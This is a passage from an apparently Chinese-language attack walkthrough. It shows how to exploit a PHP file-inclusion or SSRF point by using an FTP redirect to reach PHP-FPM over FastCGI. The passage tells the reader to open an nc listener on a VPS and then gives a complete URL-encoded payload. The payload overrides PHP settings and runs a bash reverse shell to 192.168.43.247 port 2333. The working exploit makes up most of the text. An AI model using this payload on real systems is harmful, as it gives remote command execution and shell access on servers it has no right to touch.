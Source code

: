 ```plain
```

并在 vps 上开启一个 nc 监听，用于接收反弹的 shell：

[![](assets/1698897074-e8e1bd5d5f1d557ff32d62c275a018a4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210512134746-93e65a0a-b2e5-1.png)

最后构造 url 发送 payload 即可：

```plain
/?file=ftp://aaa@192.168.43.247:23/123&data=%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%05%05%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%03CONTENT_LENGTH106%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%17SCRIPT_FILENAME/var/www/html/index.php%0D%01DOCUMENT_ROOT/%00%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%00j%04%00%3C%3Fphp%20system%28%27bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/192.168.43.247/2333%200%3E%261%22%27%29%3Bdie%28%27-----Made-by-SpyD3r-----%0A%27%29%3B%3F%3E%00%00%00%00
```

[![](assets/1698897074-2ab4d0cd0de2df4dde617739c6e473d2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210512134746-9433ab84-b2e5-1.png)
